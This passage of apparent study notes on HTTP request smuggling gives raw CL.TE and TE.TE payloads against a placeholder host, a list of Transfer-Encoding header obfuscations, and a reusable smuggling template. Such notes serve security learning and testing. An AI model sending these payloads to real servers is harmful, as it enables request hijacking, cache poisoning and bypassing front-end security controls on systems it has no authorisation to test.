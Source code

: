 A 404 Error can be produced with:
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

```

## TE.TE
Since in this scenario both systems consider the Transport-Encoding header, one of them needs to be obfuscated so it will be treated differently by one system:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

This string is universal for a TE in back-end:
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
--obfuscated TE here--

57
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

0


```
